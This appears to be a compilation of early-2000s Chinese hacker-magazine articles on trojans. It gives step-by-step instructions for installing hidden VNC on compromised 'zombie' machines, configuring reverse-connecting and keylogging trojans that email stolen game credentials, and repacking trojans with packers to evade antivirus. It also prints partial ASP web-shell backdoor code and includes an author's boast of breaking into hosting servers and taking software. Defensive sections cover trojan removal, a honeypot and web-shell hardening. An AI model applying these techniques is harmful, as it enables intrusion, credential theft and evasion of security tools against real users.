已经和主机建立了通道，可以用 strcm 安装 VNC 了！呵呵，是不是有点激动呀！运行 strcm.exe，先在“远程计算机名称或地址”下面填上远程主机的 IP，在“操作”下面选择“查看”，如图3所示。

然后点击“查找”，选择 vnc.rcm，如图4所示。

点击“执行”，在弹出的阅读协议的对话框中点“确定”，如图5所示。

随后出现的对话框是设定 VNC 参数的，如图6所示。

在口令选项里面填上登录 VNC 的密码，比如 123456，然后在安装服务前打上勾，点确定就开始装了。稍等一会儿，如果网速快的话，几秒钟就 OK 了。安装完毕后弹出一个对话窗，输入你刚才设置的密码 123456。点击确定，开始登录主机，如图7、图8所示。

呵呵，怎么样？感觉不错吧？是不是和远程桌面差不多呀？现在操作肉鸡就像操作自己的计算机一样了，至于怎么用，你应该很清楚了。

有些版本的 VNC 在运行前台会有图标出现，这样是很容易被发现的。本文所讲解的这个版本只在后台运行，相对比较安全。不过想让它更安全些，就要在安装时把默认的名字（winvnc）和安装路径修改一下了，如图9所示。

在下一次连接时，你只要运行客户端程序 vncviewer.exe，输入密码就可以登录了。一般的情况下，VNC 的服务端在开机时都会自动启动，但是有时也会出问题，这时候你就需要重复上面的步骤了。利用 Strcm 也可以关闭、卸载 VNC，但条件都是在与远程主机建立 IPC 通道的情况下。其实 VNC 的用处还不只这些，Strcm 也可以远程安装其它软件，由于本人水平有限，还没有去尝试过，所以在此就不多介绍了。

## 牧马记

冰河这个词在用过木马的人中是无人不知、无人不晓的，强大稳定的远程监控能力尤为出色。但冰河的原作者黄鑫早在三年前就停止对冰河的开发了，他的最终版本应该是 2.2B，其他的 3.0、5.0、v60、v70、v80、2000、xp 等都是其他人改装的。但原作者黄鑫又在今年的 4 月 10 号发布了一个反冰河的软件“冰河陷阱”（光盘中有收录），功能主要有：

- 自动清除所有版本“冰河”；
- 保存“冰河”配置信息；
- 模拟“冰河”被控端；
- 允许配置被控端信息；
- 保存远程上传的文件。

今天，就让我们一起去吓唬吓唬那些还在用“冰河”混饭吃的人去吧！首先我们先建立一个空文件夹（我在 C:\1 下建立的文件夹，名字为“1”），然后在这个文件夹里再建立一些诸如 Windows、Program Files、My Documents 等系统文件夹，以便后面迷惑入侵者用（图1）。

然后，我们打开“冰河陷阱”中的“文件列表生成器.exe”文件。在“真实目录”中填写我们刚才所建立的那些空文件夹的路径（由于我是在 C:\ 建立的文件夹 1，所以我要在这里填写 c:\1）；选择“伪装驱动器”为 C；点击“添加”；在“存为文件”选项我们就用它默认的，不要更改，最后点击“生成文件”（图2）。

到此，我们其实已经基本配置完成了“冰河陷阱”的过程，但为了让一会儿的入侵者真正感觉到控制了你的电脑，我们还需做很多详细的修改。如：修改“冰河陷阱”中的“DAT”文件夹下的“系统信息.txt”（图3），把里面的内容写得诱人一点，因为谁都希望自己的肉鸡配置高一点，这个也算是对那些所谓的入侵者一点心理上的安慰嘛。

“DAT”文件夹下要修改的还有很多地方，诸如：窗口、屏幕（这两个是对方用冰河监控操作我机时，“冰河陷阱”发送给对方的假截图）等，自由发挥你的想象创造力吧！

现在，让我们来运行“冰河陷阱”的主程序——“冰河陷阱.exe”。这里需说明一下，当我们运行它后，如果先前我们的计算机中有任何版本的冰河服务端，它都会替我们自动清除。当我们启动“冰河陷阱”后，它会自动打开计算机上冰河默认的 7626 端口进行监听，所以请运行前务必关掉我们机器上正在运行的各种防火墙软件（图4）。

下面，我们要做的就是安静等鱼上钩了：）我可是在家上网的哦。时间就是金钱，先和 QQ 上的漂亮妹妹聊聊吧，正当我和 MM 聊得酣畅时，任务栏上的“冰河陷阱”开始闪烁，同时发出报警声，这说明有鱼上钩了呀！赶快查看“冰河陷阱”的记录，居然发现两个人同时用冰河连接我哦！真是羡死我了，看看他们都干什么了？

记录写得很清楚，那个 IP 是 202.99.10.28 的人居然用冰河信使和我说“我被控制了！”哈哈哈！笑死我了，看来他还没有看出来是自己上当了呢：）咦？！看记录他居然想给我上传文件？他本地上传文件的路径被“冰河陷阱”完全捕获，他上传文件的本地路径还是“Settings\Administrator\桌面\Nethief\Nethief_Server.exe”，看到这里有点经验的人都会知道他给我上传的是有名的“网络神偷”嘛，看来是想以后窃知我的动态 IP 呀！还有最重要的是，我们通过他的上传路径可以轻易看出他的计算机是 Win2000 或者是 XP（图5）。

既然那个傻里傻气的“入侵者”用的是 Win2000 或者 XP，那我们就来逗逗他吧！我们运行 CMD，输入：“net send 202.99.10.28 问问，你白痴呀？没有见过冰河的蜜罐程序吗？！”这时，如果对方的 Messenger 服务是开启的话，他的屏幕上就会出现你刚刚发的话（NT/2000/XP 默认是开启的）。如图6所示。

说了这么多，相信大家也都知道“冰河陷阱”的作用和用法了吧？还等什么，现在就快去装个“陷阱”吧，坐等猫狗上钩。

截稿时“冰河陷阱”又推出了 1.2 版本，功能没有什么改变，但是新增了可以直接给控制端计算机发信息的功能，再也不用通过 Messenger 服务给对方发消息了。

### 疯狂不法地图——广外男生端源码记

钟毅榕

看了 2003 年第 3 期《黑客 X 档案》中“台湾第一匹反弹端口木马 Peep”一文后，发现反弹端口这项技术确实是个好东西……下面我就给大家说说这个木马吧～！

### 一、功能特色

广外男生除了拥有一般木马的文件操作功能外，还全面支持访问远程服务端的文件系统，也同时支持通过对方的“网上邻居”访问对方内网其他机器的共享资源。并且也运用了现在最流行的“反弹端口原理”木马技术……轻松穿过防火墙。

另外，它还使用广外程序员独创的“线程插入”技术……即便受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对广外男生的服务端进行有效的警告和拦截。

### 二、具体配置

#### 1. 客户端配置

因为用到了反弹端口技术，所以大家需要有一个支持 FTP 的主页空间……接下来我们打开 gwboy2003.exe，可以见到图 1 的界面。

图 1

选择“设置”菜单中的“客户端设置”，打开设置界面。在这里，我们可设置客户端可接受的最大连接数和客户端使用的端口（默认 80 端口）。如果是拨号上网可选“使用 HTTP 网页 IP 通知”，若是 ADSL 等固定 IP 方式可选“客户端处于静态 IP”。

图 2

> 小提示：HTTP 网页连接是把客户端 IP 及开放端口写到 HTML 文件上传到 HTTP 服务器；静态 IP 连接适合两台机器在同一局域网或客户端 IP 固定的场景。

如果选择第一项，将出现一界面，在“客户端 IP”中填写你的 IP 地址……在“端口”中填写要开放来等待服务端连接的端口。然后输入密码和最后生成的网页文件名。

- FTP 地址：你的 FTP 服务器的 IP 地址
- 端口：一般都是 21
- 用户名和密码：你的 FTP 登录用户名和密码
- 发布目录：网页存放目录
- 上传后文件：上传后是否改名，默认与本地 IP 文件同名

图 3

> 小提示：广外男生省去了手工把自己电脑 IP 做成网页文件的步骤，可由程序自动生成。

#### 2. 服务端的配置

选择“设置”菜单中的“生成服务端”，会弹出一个协议窗口，选择接受即可。接着将出现图 4 所示界面，可设置最终生成服务端的 EXE 和 DLL 文件名，并可在注册表中添加键值；“服务端运行时显示运行标识并允许对方退出”为可选项。

图 4

过程中，在你的屏幕右下角显示一个明显的运行“♂”标志，并有提示文本“GWBoy is running on this machine”（图5）。服务端的用户随时都可以用鼠标右键点取该图标，进行停止男生服务端的操作（图6）。否则，男生服务端在运行时将不显示任何标志，也无法得知男生服务端是否在运行。

继续下一步设置，出现图7所示的界面。如果你的 IP 是不变的话，那么你可以选择“静态 IP”，然后输入您的 IP 地址和监听的端口便可。如果你是拨号上网，那么根据我们前面的设置，应该在“HTTP 网页地址”中填入图7中的内容。经过一番设置后，男生的服务器算是设置成功了，在该页面将会看到一份创建日志，上面列出了该次生成的服务端的信息（图8），最后我们选择“浏览”按钮给服务端起一个名字后便大功告成了！

#### 3. 实际应用

等对方运行了你设置好的服务端后，打开计算机上的客户端程序，对方计算机上的服务端程序便会自动乖乖地连接上我们（图9）。

广外男生的文件操作管理功能非常强大，新建文件夹、上/下载文件等不说，还可以远程查找对方计算机的文件（图10）。更过瘾的是，它还可以控制局域网中其他计算机的共享文档，厉害吧！

除此之外，它的功能还具有：

- （1）远程操作注册表。点击程序的图标，对远程计算机的注册表可以进行很方便的操作（图11）。
- （2）查看系统进程和系统的服务（图12）；在这里，我们可以进行获取对方计算机的主机信息，重启和关闭远程计算机等操作，甚至还可以随意地发送信息给对方（图13）。
- （3）远程桌面：利用这个功能，我们可以很方便地查看对方计算机的屏幕图像，观察对方正在进行的操作。滑动程序工具栏上的滑动条，可以增减传输图像的质量（图14）。

### 三、不足之处

- 1. 不能像冰河那样，扫描 IP 段来找出中了木马的计算机。
- 2. 虽然广外男生可以查看系统正在运行的进程，并且可终止或开启系统服务，但却不能终止进程。
- 3. 功能比较少。只有文件管理、注册表操作等四大功能。这些功能对于一个木马程序来说还不丰富，例如还可以增加创建共享、远程鼠标控制等功能。

但不可否认，广外男生无论从编写的技术上，还是从运行的稳定性上，都绝对是一流的。相信大家一定会喜欢，呵呵！

### 四、清除方法

- 1. 打开系统注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，查看广外男生运行的 EXE 文件。该键值并没有完整运行路径，因为可执行文件是在 system32 文件夹中的，可以直接运行。删除该自启动键值，然后在 system32 系统文件夹中删除相应的 EXE 文件。
- 2. 虽然以上删除了启动项，下次还会启动。因为广外男生修改了注册表使 DLL 自动运行，而且运行之后 DLL 插入 explorer 进程中，使得这个 DLL 不能删除。即使你终止了 explorer 进程，还是会被插入到其他进程中。

因此，这个步骤你需要知道“广外男生”DLL 文件名称。你可以在 system32 系统文件夹中查找，文件大小约为 116kB 或者 115kB 的 DLL 文件，找到之后复制其文件名称，然后打开系统注册表，点击“编辑→查找”，输入你刚复制的 DLL 文件名，找到此键值之后删除即可（因为广外男生运行之后会随机写注册表使 DLL 自动运行，注册表位置是变化的）。

> 注意：一定要利用 DLL 文件名查找注册表项并删除键值，避免广外男生自动运行。

- 3. 重新启动计算机之后，删除 system32 系统文件夹中的广外男生 DLL，文件大小为 116kB 或者 115kB。

传奇建起了至今为止最壮观的虚拟世界，成为目前国内最火爆的网络游戏之一。但也有一些居心叵测的人，采用千奇百怪、无孔不入的手段来达到个人目的，比如制作类似传奇充值页面、寻找密码页面、假冒传奇官方网站，来骗取玩家个人信息、卡号、密码等，使得大批玩家的装备及传奇币被洗劫一空。

除此之外，对传奇玩家威胁最大的就是“木马”了，许多人辛辛苦苦夜以继日地 PK 了几个月的传奇账号就是被木马给盗走了。有账号被盗这种惨痛经历的朋友不在少数。那么究竟盗密者们是如何窃取传奇账号的呢？传奇迷们又该如何保护你的账号呢？笔者特写此文，希望能对传奇迷们有所帮助。

可以说百分之九十的传奇账号被盗事件都发生在网吧或是公用机器，而这些被盗账号中又有百分之九十九是被“传奇木马”窃取的！木马一词来源于古希腊历史中的特洛伊之战，后引申为隐蔽潜伏并夺取控制权的恶意程序。

木马具有隐蔽性、自动运行性、欺骗性，能自动打开特定端口。它的危害在于对系统的控制和破坏能力，可窃取密码、控制系统操作、进行文件操作等。一旦被植入你的机器，攻击者就可以像操作自己的机器一样控制你的机器，甚至进行远程操控。

作为一个应用程序，木马被运行后会随系统启动而启动，并在用户不知情情况下悄悄执行“活动”。针对传奇的木马有两大类：一类是具有键盘记录功能的木马，另一类是专业盗号木马。对传奇玩家来说，这两类都不是好东西。

## 一、具有键盘记录功能的木马

这样的木马有很多，像键盘幽灵、Power 克格勃、广外幽灵血火 v2.1 等等，用法都差不多。以广外幽灵为例，它使用线程插入技术，可以较轻松地避过防火墙，系统中不会新增任务进程，因此极其难以发现，隐蔽性很好。

可读取 Windows 窗体中的星号密码，可以记录键盘活动，记录内容通过 E-mail 发送到指定邮箱。到目前为止，幽灵类程序作为发信程序在多数情况下均可发送邮件，网络防火墙软件往往难以察觉。

一般说来，黑传奇号的人会设置木马。仍以广外幽灵为例，它的设置很简单，填写信箱地址，将“保存记录到文件”前面的“√”去掉，然后添加一个 mir.dat（传奇运行文件）并点击“生成幽灵”按钮，随后即可在需要记录的机器上运行一次。

图 1

对策：如果广外幽灵被安装进来，会在系统的 system 下生成两个木马文件：scanregw.exe 和 gst00.tmp。广外幽灵用木马 scanregw.exe 代替了系统中正常的 scanregw.exe，以达到加载运行目的。

- 清除步骤：
  1. 删除 system 文件夹下的木马文件 scanregw.exe 和 gst00.tmp。
  2. 打开注册表编辑器，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。
  3. 删除右侧窗口中的“ScanRegistry”项。

文中还提到另一种较棘手的木马“血火 v2.1”。它采用病毒原理的键盘记录工具，感染后会把一部分代码加到指定程序中并复制动态链接库文件，随目标程序运行而被触发，隐蔽性和危害性都更强。

## 牧马记

也不是开机就运行，很隐蔽。对策：查找系统中是否有 kerndl.dll 文件，如果发现它存在，则十有八九中招了。先删了它，再复制一个新的程序覆盖被感染的文件就可以了。

## 二、专门针对传奇的木马

传奇木马的活动就是“监视”传奇游戏，当有人输入账号和密码时，它便会记录下来，甚至偷偷地把这些记录发送到窃者信箱。现在网上流传的传奇木马多得数不胜数，下面是最常见的几种。

### 图1. 传奇密码窃取者

此程序是传奇盗号工具，但它又不同于一般的键盘记录程序，因此无论你是使用“复制/粘贴”或通过键盘录入，它都能正确截取传奇登录区域、用户名、密码（包括修改的密码），以及注册新用户里的所有信息，并将其发送到指定信箱。

### 图2. 传奇终结者

此程序能在用户进入传奇后自动记录账号、密码、区号、服务器等信息，并在 1 秒钟内发到你指定的电子邮件（图2）。


### 图3. 传奇叛逆魔域

它全面支持传奇最新版本，只要运行程序，然后进入传奇，输入 ID 和密码，再退出回来，你就可以看到演示程序上显示出你的 ID / 区 / 密码 / 服务器了。

### 图4. 传奇精灵木马


### 图5. 传奇幽灵

此程序支持目前所有传奇版本，集成所有现在传奇木马的性能。无论你是使用复制/粘贴或通过键盘录入，它都能正确截取传奇登录区域、用户名、密码、服务器及修改密码、注册新用户里的所有信息，并将其发送到指定信箱。查杀率很低，网络木马合并器并用时风险更大。


### 图6. 传奇杀手

它能自动过滤私服和重复记录、错号，并能自动关闭瑞星 2003 防火墙。与一般键盘记录程序不同，可截取登录区、用户名、密码及修改密码、注册新用户信息并发送到指定信箱。

### 图7. 传奇黑眼睛

它可以截取传奇游戏登录的区域、用户名、密码、IP 地址和登录时间，并且可以开机自动运行。木马文件常伪装在系统目录中。


## 三、如何杜绝木马

看了上面几个木马，我们了解了传奇木马的基本情况。木马要运行后才能起作用，因此网吧、公用机房成为盗号者常见下手场所。

曾在网吧一台机子上发现了三个传奇木马。多数传奇用户缺乏安全意识，在线下机后账号可能丢失。杀毒软件难以完全查杀，尤其是变种和隐藏进程木马。

可以利用木马以进程形式存在这一特征，在玩传奇前只保留必要系统进程，关闭其他可疑进程。即使无法确认是否木马，也可先“休息”可疑进程。

文中推荐使用“柳叶擦眼”进程管理工具，可列出系统全部进程（包括隐藏进程）并可杀死进程。


在“参数设置”中添加传奇程序名（如 MIR.EXE）并标识为“正常文件”（图6），再选择“只运行系统文件或正常文件”选项（图7）。


正常需要的所有进程都被关闭，刚才我们看到的那几只木马进程当然也就没了，而且“柳叶擦眼”会每隔 30 秒检测一次进程，木马想再启动门都没有！这样把“柳叶擦眼”最小化后，你就可以放心打开传奇玩个痛快了。


这里给大家介绍一种密码输入方法，让别人即便盗取了你的密码，他也无法更改。

具体做法如下：打开 UltraEdit 之类的 16 进制文件编辑器，点击“查看”菜单中的“ASCII 字符表”（图8），会弹出如图9所示的窗口，选中第 9 行，直接双击或点击“插入字符”按钮就会插入该 ASCII 字符。


在 UltraEdit 中你会发现新建立的文件中有一个空格（图10），选中它复制，然后打开记事本程序输入 as d。


> 注意：as 和 d 中间不是空格，它是我复制的 ASCII 码 09。按上述方式设置后，密码看起来只有 4 个字符。

会弹出错误信息，拒绝执行更改密码，因为传奇只允许 10 位以内的密码，而一个 ASCII 码 09 占用了 8 位，再加上 asd 这三个字母，就是 11 位了，于是会出现错误。即使别人得到了你的号码，也改不了。

- 记住密码提示问题及其答案，如果密码丢失或被盗，这是通过服务商取回密码的有效方法。
- 经常去虚假的网站打假专区（如 `http://home.ni2.com.cn/phony/index.htm`）查看恶意网址。
- 不要使用外挂软件，尤其是免费的外挂。

虽然说绝大多数传奇失窃事件发生在网吧、公用机房等场所，但在家里玩传奇的用户也不可以掉以轻心。若怀疑中木马，可用相关方法确保账号安全。


木马是许多黑客在取得管理员权限以后，为了达到进一步入侵及长期控制而使用的后门程序。随着杀毒软件升级和换代速度加快，很多木马会在短时间内被查杀。

许多读者都有这样的想法：如果能有一款不被查杀的木马就好了。通过研究和实践，发现像“广外女生”“Wollf”“蓝色火焰”等木马在改造后可逃过部分检测。下面将对几个木马的改造及清除过程做介绍。

记得中国有句老话“千人洗衣马得吃午”。通过在自己电脑上运行木马，更好地了解木马所影响的注册表及所生成的文件。先准备好所需软件。

- 木马：广外女生 1.0、蓝色火焰 0.5 版、WOLLF
- 杀毒软件：金山毒霸
- 壳侦测工具：PEID
- 脱壳工具：ApackDie、UPX
- 加壳工具：ASPack、ASProtect

## 1．广外女生篇

对于广外女生这个木马，相信大家都已经很熟悉。它是广东外语外贸大学“广外女生”网络小姐的作品。下面对其早期 1.0 版本进行介绍：首先打开客户端，按默认设置生成服务端程序，会生成名为 GDUFS.exe 的服务端程序。

我们打开金山毒霸，对 GDUFS.exe 文件进行检测，金山毒霸会提示这是黑客程序（图2），并发出报警声。我们不去理会它，停掉病毒防火墙，记录下系统运行的进程，执行 GDUFS.exe 文件。这时广外女生已经在我的电脑上运行了。你如果还不确定，可以停止这个进程，再用客户端连接 127.0.0.1 主机，这时是不是不能连上了呀！


图1


图4


图2

接着我们执行广外女生的客户端程序，输入新的主机 127.0.0.1，你能看到已经连接上了本地的电脑。这时，我们再次打开病毒防火墙，对系统目录（这里是 D:\winnt\system32）进行一个扫描，金山毒霸会提示发现名为 DIAGCFG.EXE（高版本的广外女生可能在服务端配置里更改 DIAGCFG 这个文件的名字）的文件有病毒（图3）。

好，我们再来看注册表，在“开始→运行”菜单中输入 REGEDIT，进入注册表编辑器。我们刚才已经知道广外女生服务端程序把自己复制成 DIAGCFG.EXE 这个文件，我们只需在注册表中查找与这个文件有关的项目删除或更改就行了。我们查找与 DIAGCFG.EXE 有关的项目，在注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices 项和 HKEY_CLASSES_ROOT\exefile\shell\open\command 项里，这是为了在系统启动时或 EXE 文件运行时再次执行（图5、6）。要清除它还是要先在注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices 项里删除其中名为“Diagnostic Configuration”的键值，再将 HKEY_CLASSES_ROOT\exefile\shell\open\command 项默认键值改成 `"%1" %*`，然后退出注册表，在系统进程中结束 DIAGCFG 这个进程，并在系统目录下删除 DIAGCFG.EXE 文件。


图3

我们先不要急于清除这个文件，把它复制到有 GDUFS.exe 文件的目录下，我们对这一个文件进行比较。你会发现这三个文件大小都是一样的，也就是说，它们都是同一个文件，只不过改了个名字而已。接着，我们使用进程管理器来看是否有新增的进程，你会发现进程管理器中有一个名为 DIAGCFG 的进程（图4），这不就是刚才那个有病毒的文件的进程吗？对，这就是广外女生的进程。


图5

下面，我们对广外女生进行改造，因为控制端是我们自己使用，服务端才是安装到网鸽上的，所以我们只改造服务端程序。首先打开 PEID 壳侦测工具，对广外女生服务端程序进行侦测，知道它是用什么软件加的壳我们就可用相应的脱壳软件对其脱壳。这时你会发现没有经过改造的广外女生 1.0 服务端是用 ASPack 加的壳（图7）。

我们可以使用 AspackDie 脱壳工具脱去它的壳（图8），脱壳前的服务端程序只有 96K，而脱壳后的服务端程序却有 236K。然后，我们再对已经脱壳后的程序进行加壳处理，这里我使用的是 ASProtect 加壳工具。在应用程序信息这一栏里要保护的文件处输入已经脱了壳的服务端程序——unpacked.exe，在输出文件名处输入新文件名 gdufs_new.exe（图9），在选项这一栏里设置压缩选项、保护选项和其他选项，特别是资源保护应该选中，否则有的木马在压缩后不能正常执行。最后在“方案”一栏里点击“开始”。这样就会生成一个新的服务端程序 gdufs_new.exe，程序大小 101K。如果一切正常，经过加壳后生成的文件就能够成功逃过杀毒软件的检测。


图6


图7


图8


图9

## 2．蓝色火焰篇

在了解了“广外女生”改造后，我们再来对最近比较流行的基于控制台的新木马——蓝色火焰进行改造和清除。最先还是按默认配置生成蓝色火焰的服务端程序 bfserver.exe，大小为 233K。执行后会生成 SYSEXPL.EXE、TASKSVC.EXE、BFHOOK.DLL 三个文件，并且将 TASKSVC 加入正在执行的进程（图10）。


图10

我们还是按上面的方法，打开注册表搜索这几个文件，以及发现木马对注册表的改动。SYSEXPL.EXE 把自己添加到 HKEY_CLASSES_ROOT\Applications\notepad.exe\shell\open\command 键和 HKEY_CLASSES_ROOT\txtfile\shell\open\command 键下，也就是 TXT 文本文件的关联方式为 SYSEXPL.EXE 而不是 NOTEPAD.EXE；TASKSVC.EXE 则把自己添加到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 键下，随系统启动而启动。我们要清除蓝色火焰，首先终止名为 TASKSVC 的进程，接着在注册表里把 TXT 文件的关联 SYSEXPL.EXE 改成 NOTEPAD.EXE，然后把 TASKSVC.EXE 从注册表里删除，防止重启计算机后再次执行。要彻底删除蓝色火焰，最后还应在系统目录下删除上面这三个文件。不过为了方便后面的改造工作，我们现在还暂时不删除这三个文件。

下面，我们将对蓝色火焰进行改造。还是先打开 PEID 侦测蓝色火焰服务端所加的壳，蓝色火焰也是用 UPX 加的壳，我们按照脱冰河的壳一样脱去蓝色火焰的壳，脱壳后的蓝色火焰有 595K 大小（如果这时执行它的话，生成的 SYSEXPL.EXE、TASKSVC.EXE 文件同样也有 595K，而 BFHOOK.DLL 文件大小则和原来的一样大，如图11）。也就是说 BFHOOK.DLL 文件不会因为蓝色火焰服务端程序的改变而改变，杀毒软件同样能检测出 BFHOOK.DLL 文件有病毒。


图11

下面，我们打开加壳工具 ASPack 对已经脱了壳的蓝色火焰服务端进行加壳。这时应该特别注意，在选项中的“保护特别数据”前一定要打上勾（图12），否则使用蓝色火焰连接时会一直提示你输入密码。因为 BFHOOK.DLL 文件还能被杀毒软件检测出来，所以我们的改造工作还没有完成。接下来还要对 BFHOOK.DLL 文件进行改造，用 PEID 侦测发现 BFHOOK.DLL 文件还没有加壳（图13），我们用任何加壳软件对其进行加壳处理都能够逃过杀毒软件的检测，这里还是用 ASPack 对其进行加壳，方法同上面一样。


图13

到这时对蓝色火焰的改造已经成功完成了。还有一点需要注意，因为蓝色火焰服务端在运行后会在系统目录下生成三个文件，其中两个 EXE 文件已经改进过是不会被发现的，只有 BFHOOK.DLL 文件会被杀毒软件发现。所以我们还应该在执行蓝色火焰服务端之前就把经过改造后的 BFHOOK.DLL 文件复制到系统目录下，这样蓝色火焰执行后会在系统目录下寻找是不是有 BFHOOK.DLL 文件，如果有就不再生成会被杀毒软件发现的 BFHOOK.DLL 文件了。

其实，还有很多木马程序都能通过加减壳的改造成功逃过杀毒软件的检测，这里就不再多说了。希望能通过对以上几个流行木马改造的介绍，使大家对木马改造有个了解。如果想要对木马更深入的分析，还应熟练掌握汇编语言。不过对于最新版的木马都有较强的保护措施，像灰鸽子木马，如果你对其服务端进行了改造，程序发现文件大小不一样就会自动删除服务端程序。

广大读者朋友如果谁知道怎样改造最新版的木马程序，可到 www.cnlongker.com 论坛与我交流。


随着 ASP 技术的发展，网络上基于 ASP 技术开发的网站越来越多，对 ASP 技术的支持可以说已经是 Windows 系统 IIS 服务器的一项基本功能。但基于 ASP 技术的木马后门也越来越多，而且功能也越来越强大。由于 ASP 本身是服务器提供的一项服务功能，所以 ASP 脚本的木马后门不会被杀毒软件查杀，被黑客们称为“永远不会被查杀的后门”。由于其高度的隐蔽性和难查杀性，对网站的安全造成了严重威胁。因此，针对 ASP 木马的防范和清除，为我们的网管人员提出了更高的技术要求。

下面我结合个人经验，谈一下两款比较典型的 ASP 木马的防范方法（为节省版面，我们将两款 ASP 木马的代码部分省略，完整的代码收录在光盘中），希望对大家能够有所帮助。

## 一、第一款木马

以下是第一款木马的代码，运行后如图1：

```html
<title>ASP Shell</title>
<%@ Language=VBScript %>
......
</BODY>
</HTML>
```


图1

在命令行里输入 DIR 命令，点“执行”就可查看目录了（图2）！


它可使用各种 DOS 命令，如：copy、net、netstat 等（图3、图4）。


图3


图4

但它的默认执行权限只有 GUEST，也就是 IUSR_COMPUTER 用户的执行权限。当然，如果你把 IUSR_COMPUTER 用户加入管理员组，那么你就有管理员权限了。

这款木马使用很方便，相当于 DOS 命令行的窗口操作一样。但如果服务器限制了 FSO（无组件上传），那么它就没办法使用了；还有就是在服务器以后增加的虚拟主机里，也没有办法使用，只能在“默认 Web 站点”里使用，所以它相对的适用范围较窄。

对于防范方法，让我们看一下它的代码就可以知道了：

```asp
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
```

上面三行代码创建了 WSCRIPT.SHELL、WSCRIPT.NETWORK、Scripting.FileSystemObject 三个对象，我们只要在注册表中把控制 WSCRIPT.SHELL 对象的项改名或删除就可以了（图5）。

> 我们应该把“WSCRIPT.SHELL”项和“WSCRIPT.SHELL.1”这两项都改名或删除。因为如果我们只修改“WSCRIPT.SHELL”项，那么黑客们只要把代码修改如下：`Set oScript = Server.CreateObject("WSCRIPT.SHELL.1")`，这个后门木马就又可以执行了。

大家可能已经想到了，我们在对“WSCRIPT.SHELL”项和“WSCRIPT.SHELL.1”改名时，一定要不容易被黑客们猜到。因为如果你把“WSCRIPT.SHELL”改成“WSCRIPT.SHELL888”，黑客们只要把代码相应改成：`Set oScript = Server.CreateObject("WSCRIPT.SHELL888")`，木马程序就又可执行了。还有就是修改了注册表后，要重启 WEB 服务，设置才会有效。


图5

## 二、第二款木马

接下来，我们再来看第二款 ASP 后门木马程序的代码：

```asp
<%response.write "<font size=6 color=red>一次只能执行一个操作。</font>" %>
<%response.write now()%><BR>程序所在的物理路径：
<%response.write request.servervariables("APPL_PHYSICAL_PATH")%>
<html>
<title>asp's shell.application backdoor</title>
set shell3=server.createobject("shell.application")
...
shell3.namespace(szcmd5).items.item(szcmd6).invokeverb
response.write "command completed success!"
end if
%>
```

执行后如图6所示。


图6

要查看目录，只要输入相应的目录，点“发送”命令就可以了（图7）。

这个木马程序可完成文件的 COPY、MOVE 和执行程序，但很多命令都不能用，如 del、net、netstat 等。这个木马程序的功能虽然简单，但用来隐藏一个网站还是够了。比如，我们可把网站的首页 MOVE 到其他地方，然后我们再 COPY 一个同名的黑客网页……

## 牧马记

进去就行了。

图 7

让黑客们一下就猜到了。顺便说一句，如果是你给肉鸡打补丁，最好是改名，并把名字记下来，这样也就成为自己有一个隐秘后门了。

图 8

最要命的是，这个木马适用于任何虚拟主机中，只要我是服务器中的一个虚拟空间用户，就可传这个木马上去，并用它来修改其他任何用户的主页。所以，如果那些提供虚拟空间的服务商没有打补丁的话，真是死定了。

然而，我在实践中发现中国很多的虚拟空间服务商（特别是一些小型的服务商）都没有打补丁。我利用这一漏洞拿到了很多虚拟空间服务器的 Admin，然后好心帮他们补上了漏洞。当然，我也得到了想要的东东——很多好的软件和代码。我现在用着的很多 ASP 程序就是从他们那上面偷下来的，哈！太难听了，应该说 Down 下来才对。

言归正传，我们应该怎样来防范这个 ASP 后门木马程序呢？让我们看一下其中的这一句代码：

```asp
set shell=server.createobject("shell.application")
```

跟刚才的方法一样，如图 8。我们只要把 `"shell.application"` 项和 `"shell.application.1"` 项改名或删除就可以了。记住，如果是改名，要改得复杂一点，不要……

### 三、总结

最后，我们对这两款后门木马做下总结：第一款木马功能上强大一些，但适用范围窄，需要 FSO 支持，也就是 `"Scripting.FileSystemObject"` 项的支持。第二款木马虽然功能上少一些，但它创建的是 `"shell.application"` 对象，在任何虚拟主机中都适用（这一点危害太大了，提供支持 ASP 空间的管理员们，你们可得注意了）！

以上代码复制保存为 ASP 文件就可直接使用了（仅用于测试，不要搞破坏，一切后果自负！）

### 变害为宝——巧用木马的文件关联保护电脑

木马冰河相信国内很多朋友都接触过，自己机器上中了冰河一定有过这样的经历：终止冰河服务端进程并到系统目录下彻底删除冰河服务端后，发现自己电脑里面的 EXE 或 TXT 文件全都无法打开，这是怎么回事呢？

用过冰河的朋友也许会知道，在配置冰河服务端的“自我保护”选项时，有个可选的文件关联选项（图 1），我们可以选择 EXE 或 TXT 关联。可木马为什么要进行文件关联呢？这是为了防止上面彻底删除冰河服务端的情况发生……电脑上“复活”！如果你连 SYSEXPLR.EXE 也删除了，那就会出现上面无法打开电脑里所有 EXE 文件的情况了。

图 1

之所以会这样，是因为冰河自动修改了注册表中的 EXE 文件关联，将正常的键值 `"%1" %*` 变为了 `D:\WINDOWS\System32\SYSEXPLR.EXE "%1" %*`，如图 2 所示。因为 SYSEXPLR.EXE 被你删除而找不到了，所以系统里的 EXE 文件自然也无法打开，这就是木马神秘的 EXE 文件关联的真相！

TXT 关联也类似，不同的是它修改了 `txtfile` 下的键值。

图 2

知道了木马文件关联的原理，我们就可方便地将系统恢复正常了，只需将注册表下的 `D:\WINDOWS\System32\SYSEXPLR.EXE "%1" %*` 重新改为 `"%1" %*` 即可。

我们现在不仅可轻松搞定被木马的文件关联破坏后的系统，还可反过来利用它的这一特性为我们服务！首先建立两个空文本文件，打开其中一个写上如下值，保存并修改其名为 `exeopen.reg`。

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@="\"%1\" %*"
```

在另一个文本文档中写下如下值，保存并修改其名为 `exelock.reg`。

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@="www"
```

- 提示：`www` 可随意为任何值，甚至可直接填写某一应用程序。

